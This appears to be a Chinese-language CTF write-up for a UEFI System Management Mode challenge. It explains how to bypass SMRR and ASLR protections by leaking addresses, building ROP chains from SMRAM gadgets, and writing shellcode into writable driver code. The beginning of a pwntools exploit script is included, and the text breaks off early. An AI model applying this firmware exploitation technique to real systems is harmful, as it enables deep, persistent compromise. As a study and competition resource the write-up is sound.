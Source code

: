與 Cowsay 2 差在加了三個 patch：

- 0006-OvmfPkg-SmmCpuFeaturesLib-Enable-SMRR-SMM_CODE_CHK_E.patch
  - Enable SMRR & SMM_CODE_CHK_EN
    - **SMM_CODE_CHK_EN** - any logical processor in the package that attempts to execute SMM code not within the ranges defined by the SMRR will assert an unrecoverable MCE
    - **System-Management Range Register (SMRR)** - restricts access to the address range defined in the SMRR registers
      - mSmrrPhysBaseMsr - base address
      - mSmrrPhysMaskMsr - size
  - 無法在 SMM 中執行不落在 SMR 的 code
- 0007-Merge-in-ASLR-changes-from-SecurityEx.patch
- 0008-ASLR-Improvements.patch
  - 在所有 runtime drivers 上實作 alsr



漏洞仍相同，打法差在：

1. 要先 leak base address
2. ROP gadget 要從 SMR 裡面找

首先需要看有哪些 function 可以透過 `LocateProtocol()` 來取得，定義在 https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/MdePkg.dec，而同時這些 protocol function 需要位在 SMR 當中。



之後會找到一個符合條件的 function `gEfiSmmConfigurationProtocolGuid()`，查看 debug info 會知道它落在 binary **PiSmmCpuDxeSmm.efi** 當中，我們此時已經有 binary base，接下來就是從中找好用的 gadget。而 gadget 無法做到 walk page table，因此 walk 部分的行為會透過任意寫寫在 PiSmmCpuDxeSmm.efi 的 .text 的開頭，能寫入的原因是 cr0.WP 是沒有被設上的。最後寫完 shellcode 直接跳上去執行，並用 panic dump register 來 leak 8 bytes flag。



exploit：

```python
#!/usr/bin/python3

from pwn import *
import os

context.arch = 'amd64'

r = process('./run.sh')

r.recvuntil('SystemTable: ')
addr_system_table = int(r.recvline()[:-1], 16)
r.recvuntil('your code: ')
addr_code_buf = int(r.recvline()[:-1], 16)
info(f"addr_system_table: {hex(addr_system_table)}")
info(f"addr_code_buf: {hex(addr_code_buf)}")

addr_region_4 = 0x44440000

offset_BS = 0x60
offset_LocateFunc = 0x140
offset_AllocPool = 0x40
enum_EfiRuntimeServicesData = 6

input('enter to start...')
debug_log = open("./debug.log", "r").read()
smm_base_idx = debug_log.index('SMBASE=') + len('SMBASE=')
smm_base = int(debug_log[smm_base_idx:smm_base_idx+8], 16)
info(f"smm_base: {hex(smm_base)}")

if not os.path.exists('./smm_guids'):
    os.system('cat MdePkg.dec | grep "Smm" | grep "ProtocolGuid" > smm_guids')

guids = open("./smm_guids", "r").read().split('\n')[:-1]
```